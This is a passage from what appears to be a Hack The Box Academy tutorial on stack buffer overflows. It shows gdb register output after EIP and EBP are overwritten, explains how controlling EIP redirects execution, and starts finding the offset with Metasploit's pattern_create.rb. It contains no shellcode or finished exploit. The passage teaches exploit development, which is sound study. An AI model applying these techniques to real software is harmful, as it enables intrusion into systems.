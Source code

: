 If we insert 1200 "`U`"s (hex "`55`") as input, we can see from the register information that we have overwritten the `EIP`. As far as we know, the `EIP` points to the next instruction to be executed.

Segmentation Fault

```shell-session
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP overwritten
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP overwritten
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

If we want to imagine the process visually, then the process looks something like this.

#### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_2.png)

This means that we have to write access to the EIP. This, in turn, allows specifying to which memory address the EIP should jump. However, to manipulate the register, we need an exact number of U's up to the EIP so that the following 4 bytes can be overwritten with our desired memory address.

---

## Determine The Offset

The offset is used to determine how many bytes are needed to overwrite the buffer and how much space we have around our shellcode.

Shellcode is a program code that contains instructions for an operation that we want the CPU to perform. The manual creation of the shellcode will be discussed in more detail in other modules. But to save some time first, we use the Metasploit Framework (MSF) that offers a Ruby script called “pattern_create” that can help us determine the exact number of bytes to reach the EIP. It creates a unique string based on the length of bytes you specify to help determine the offset.

#### Create Pattern

Create Pattern

```shell-session
W4H33D@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
W4H33D@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```
